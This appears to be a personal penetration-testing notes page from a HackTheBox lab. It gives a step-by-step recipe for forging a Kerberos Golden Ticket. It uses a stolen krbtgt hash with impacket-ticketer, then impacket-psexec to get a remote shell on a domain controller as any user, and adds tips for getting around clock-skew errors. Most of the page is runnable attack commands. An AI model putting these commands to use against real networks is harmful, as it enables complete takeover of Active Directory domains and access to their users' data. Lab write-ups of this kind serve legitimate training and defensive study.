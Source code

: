 # Golden Tickets

![](/assets/img/2022-10-09-02-14-12.png)

need to get hold of the `krbtgt` hash (this is the key that Windows uses to sign tickets)

usually done by performing a DCSync and then performing a secretsdump

```bash
# to get the `-domain-sid` 
Get-ADDomain htb.local
```

```bash
impacket-ticketer -nthash 819af826bb148e603acb0f33d17632f8 -domain-sid S-1-5-21-3072663084-364016917-1341370565 -domain htb.local WhateverWeWant
```

The above command will create a file with the ticket information all you need to do to use it is set it as an environment variable:

```bash
export KRB5CCNAME=WhateverWeWant.ccache
```

Then we can PSExec in as literally any username we like because we just created a ticket with signed by the Domain, and everything within the Domain implicitly trusts anything signed by the Domain and doesn't bother to check, because that's how that works.

```bash
impacket-psexec -k -debug -no-pass htb.local\WhateverWeWant@forest
```

> Use the machine name/domain name to connect, this particular command doesn't like IP addresses (add to /etc/hosts)
{: .prompt-tip }

## Overcoming any Clock Skew Issues

Work out what Timezone the machine is in (roughly) and set that as your `localtime` in this case setting it to US/Pacific got us to the same caldendar date, which is the important bit of setting the Timezone.

```bash
sudo su
cat /usr/share/zoneinfo/US/Pacific > /etc/localtime
exit
```

If you still get a Clock Skew error run `date` on the target and just set your PC time to whatever time is on the box. Kerberos has issues if there is a difference of 10 minutes or so and some machines end up quite badly out of sync because their local NTP server is crap or you're attacking a VM with no external internet access so it can't update that way.

```bash
sudo date -s 18:05:49
```

> Rerun the `impacket-ticketer` command at this point to refresh the ticket.
{: .prompt-tip }


